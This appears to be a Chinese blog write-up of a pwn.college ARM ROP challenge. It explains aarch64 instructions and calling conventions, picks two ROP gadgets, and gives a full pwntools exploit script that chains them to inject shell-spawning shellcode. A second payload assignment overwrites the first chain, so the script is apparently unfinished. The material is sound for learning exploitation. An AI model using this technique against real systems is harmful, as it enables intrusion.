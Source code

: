 ```yaml
---
title: pwn-college的一道arm rop题
date: 2024-10-13
categories: 日常研究
---
```

# 前言
最近是在[Rocket](https://rocketmadev.github.io/)安利下去看了[pwncollege](https://pwn.college/)这个网站，然后感觉还不错，armdojo已经快刷完了，就差一题！！！但是最后一题好难啊，看了好几个小时没思路。
# arm中rop所需要了解的知识
首先arm的rop和x86中差了非常多，所以这里介绍一下差别，顺便带一下道场中别的知识包括汇编指令和在栈溢出学习中发现的不同。
## aarch64汇编指令
1. aarch64是arm的64位的叫法，就像x86-64和x86一样。
2. arm中的寄存器有整整30个！
其中函数传参时前八个参数使用X0-X7，后续参数放在栈上。
而syscall时前八个参数依然是X0-X7
以及很重要的X30寄存器也就是LR寄存器，其作为函数返回地址保存的寄存器，函数返回将会无条件跳转至X30。
3. arm架构下，所有的指令是4个字节定长的！！其带来了很多神奇的与x86不同的特性，按我的话说，成也定长，败也定长。
    1.  细说一下，比如"mov rax, 0x2024202520262027"这个指令可以直接在x86中一步完成，
        但是在arm中，收到指令定长为4的限制，无论如何不可能出现超过两个字节的立即数。
        arm的解决办法如下
        ```asm
        MOV  X0 0x2027
        MOVK X0 0x2026, LSL #16
        MOVK X0 0x2025, LSL #32
        MOVK X0 0x2024, LSL #48
        ```
        通过位移的方式赋值，最多一次赋值两个字节。
    2.  然后是add,sub,smull,sdiv指令等等，其支持三个操作数的特性使其比x86更加灵活。
        ```asm
        ADD X0, X1, X2
        ```    
        就是`X0 = X1 + x2`的功能，可以发现其在x86中是完全不可能一条指令实现的。
        这只是最简单的，更详细的可以在[arm开发者手册通常指令](https://developer.arm.com/documentation/dui0802/b/A64-General-Instructions/A64-general-instructions-in-alphabetical-order)[arm开发者手册数据转换指令][def]中找到更详细的内容
    3.  还有很重要的`LDR`和`LDP`指令，是从地址中加载数据到寄存器。
        ```asm
        MOV X3, sp
        LDR X0, [X3]
        ```
        LDR是`load addr`加载地址，LDP是`load addr pair`成对加载地址
        比如这条指令从[X3+8]的位置加载出来0x10的内存，前0x8的内存加载给X1,后0x8的内存加载给X2。
        ```asm
        LDP X1, X2, [X3, #0x8]
        ```
        与`LDR`和`LDP`对应的是`STR`和`STP`，其功能显然就是反过来，所以懒得说了。
    4.  arm有三种索引方式，`preindex``postindex``offset`，其原理都是基于一个基址寄存器加上一个偏移取地址。
        1. 比如`LDR X0, [SP , #0x90]`就是offset取地址，其不改变SP的值直接从[SP+0x90]的位置取出0x8大小的内存赋值给X0。
        2. `LDR X0, [SP, #0x90]!`则是先对SP+=0x90，再从[SP]的地址取出0x8大小的内存赋值给X0
        3. `LDR X0, [SP], #0x90`则是先从SP取出内存赋值，再使得SP+=0x90
        可以发现其功能比x86强大很多，也许是因为固定四个字节的指令长度强迫其必须在一条指令中实现更多功能，否则如果按照x86的设计逻辑，代码段的长度会长非常多。
        不过有一点非常可惜的是arm中没有直接的push和pop指令，而是通过LDR来实现push和pop等对于栈的操作。
接下来具体的到题目中分析

# ARM-ROP
arm中函数返回地址的取值并非x86中直接从栈上取，而且我目前了解到clang和gcc编译的arm程序的返回地址取值都有着一定区别。这题是clang编译的，所以首先说clang编译的程序机制。

`RET`指令在x86中意味着`pop rip`，而在arm中意味着`B X30`，B是arm的无条件跳转指令，也就是说每当arm函数返回时，其无条件跳转至X30的地址。

与X30一对的是X29，X29类似于一个rbp，作为辅助来维持栈的结构，但是很少被真正用来索引，我也没有见过像x86中的`mov rsp, rbp`这种可以利用rbp的情况发生，甚至连函数内部的变量索引都很少用到X29。

每当新函数被调用，就会将X29，X30的值保存在栈上，然后在返回时取出并且跳转至X30，看似栈溢出劫持程序流的思路依然可行对吧，但是实际上这比x86中难了一个档。

![clang-ret](./arm-rop/clang_ret.png)

图中可以看到，程序从[SP+0x50]的位置加载出X29和X30，当我们在challenge函数中存在栈溢出时，对于challenge函数的返回地址劫持就成功了。

可以对比一下x86和arm的区别
```asm
mov rsp, rbp
ret
```
x86固定从栈顶取返回地址。而arm的返回地址固定从SP+多少多少取，而这个值就取决于函数栈帧大小，所以从sp到sp+多少多少这段栈帧都必须被覆盖才能写到下一个函数的返回地址。
而且，arm的`RET`指令还依赖于`LDP X29, X30, [SP],#0x20`，必须由该指令加载X30后RET才能正确返回。
而且，arm还是定长指令，不存在x86中可以通过错位构造一些gadget的情况。
还有就是，x86中经常出现函数末尾pop来恢复寄存器然后返回，但是在arm中我经常只能看到对于X19和X20的恢复，也许是因为arm的寄存器太多了，太阔了吧QAQ

说了这么多，还是上图片吧。这样讲就很明显了，由于
![stack](./arm-rop/stack.png)

# 程序分析
arm道场系列里第一个module是熟悉一下aarch64的各种指令，手写各种指令做一下简单操作。第二个module是rop，所以贯穿始终的都是超长超大的栈溢出。

![main_ida](./arm-rop/main_ida.png)
main里面几乎没有任何内容，然后是challenge函数。
![challenge](./arm-rop/challenge.png)
直接给了一个栈地址，然后给了超大栈溢出。
还有就是该函数是静态编译的，所以有特别多gadget。

由于上面说到的种种困难，我在寻找gadget时有点卡住了，不过最后，让我找到了非常好用的两个gadget
```
0x43e980 : ldp x19, x20, [sp, #0x10] ; ldp x21, x22, [sp, #0x20] ; ldp x23, x24, [sp, #0x30] ; ldp x25, x26, [sp, #0x40] ; ldp x27, x28, [sp, #0x50] ; ldp x29, x30, [sp], #0x130 ; ret
# x19-x30

0x42f278 : ldr x3, [x21, #0x38] ; mov x1, x23 ; mov x2, x20 ; mov x0, x19 ; blr x3
```
单单通过栈就能控制x19-x30的寄存器，然后再控制x0，x1，x2，x3，通过x3继续控制程序流，不得不说，还好这题给了栈的值，要不就没法通过x21控制x3了。
## exp
```python
from pwn import *
import os
os.environ['QEMU_LD_PREFIX'] = '/usr/aarch64-linux-gnu'
context(terminal = ['tmux','splitw','-h'], arch = "aarch64", log_level = "debug")
io = gdb.debug('./pwn')

io.recvuntil(b'at: ')
stack = int(io.recv(0xe), 16)
print(hex(stack))

shellcode = asm(shellcraft.aarch64.sh())

payload = b''
payload += b'/flag\x00' + p64(0x43E568) # x3
payload += b'\x00'*0x29 + p64(0x0) # x29
payload += p64(0x43e980) # x30
payload += p64(0x0) + p64(0x42f278) # x29, x30
payload += p64((int(stack/0x1000)*0x1000)) + p64(0x7) # x19(x0), x20(x2)
payload += p64(stack + 6 - 0x38) + p64(0x0) # x21, x22
payload += p64(0x1000) + p64(0x0) # x23(x1), x24
payload += p64(0x0) + p64(0x0) # x25, x26
payload += p64(0x0) + p64(0x0) # x27, x28
payload += shellcode + b'\x00'*(0xD0-len(shellcode))
payload += p64(0x0) + p64(stack + 0xa7)

payload = b''
payload += b'/flag\x00' + p64(0x0) # x3
payload += b'\x00'*0x29 + p64(0x0) # x29
payload += p64(0x401878) # x30
io.send(payload)

io.interactive()
```

